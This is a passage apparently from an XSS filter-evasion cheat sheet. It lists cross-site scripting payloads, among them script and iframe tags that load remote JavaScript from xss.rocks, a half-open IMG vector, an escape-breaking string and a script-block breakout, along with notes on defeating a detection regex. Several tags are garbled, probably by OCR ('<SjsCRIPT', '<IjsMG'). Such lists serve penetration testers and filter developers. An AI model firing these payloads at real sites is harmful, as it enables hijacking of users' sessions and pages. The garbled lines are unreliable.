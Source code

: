 ```
<SjsCRIPT SRC=http://xss.rocks/xss.js?< B >
```

## Protocol Resolution in Script Tags
This particular variant was submitted by Łukasz Pilorz and was based partially off of Ozh’s protocol resolution bypass below. This cross site scripting example works in IE, Netscape in IE rendering mode and Opera if you add in a `</SCRIPT>` tag at the end. However, this is especially useful where space is an issue, and of course, the shorter your domain, the better. The “.j” is valid, regardless of the encoding type because the browser knows it in context of a SCRIPT tag.

```js
<SCRIPT SRC=//xss.rocks/.j>
```


## Half Open HTML/JavaScript XSS Vector
- Unlike Firefox the IE rendering engine doesn’t add extra data to you page, but it does allow the javascript: directive in images. This is useful as a vector because it doesn’t require a close angle bracket. This assumes there is any HTML tag below where you are injecting this cross site scripting vector. Even though there is no close `“>”` tag the tags below it will close it.
- A note: this does mess up the HTML, depending on what HTML is beneath it.
- It gets around the following NIDS regex: `/((\\%3D)|(=))\[^\\n\]\*((\\%3C)|\<)\[^\\n\]+((\\%3E)|\>)/` because it doesn’t require the end `“>”`. As a side note, this was also affective against a real world XSS filter I came across using an open ended `<IFRAME` tag instead of an `<IMG` tag:


```
<IjsMG SRC="`('XSS')"`
```

## Double Open Angle Brackets
- Using an open angle bracket at the end of the vector instead of a close angle bracket causes different behavior in Netscape Gecko rendering.
- Without it, Firefox will work but Netscape won’t:

```js
<iframe src=http://xss.rocks/scriptlet.html <
```

## Escaping JavaScript Escapes
- application output some user information inside of a JavaScript like the following:
    - `<SCRIPT>var a="$ENV{QUERY\_STRING}";</SCRIPT>`
- to inject your own JavaScript into it but the server side application escapes certain quotes you can circumvent that by escaping their escape character.
- When this gets injected it will read
    - `<SCRIPT>var a="\\\\";alert('XSS');//";</SCRIPT>`
    - which ends up un-escaping the double quote and causing the Cross Site Scripting vector to fire.
- The XSS locator uses this method.:
    - `\";alert('XSS');//`
- An alternative, if correct JSON or Javascript escaping has been applied to the embedded data but not HTML encoding, is to finish the script block and start your own:

```js
</script><script>alert('XSS');</script>
```
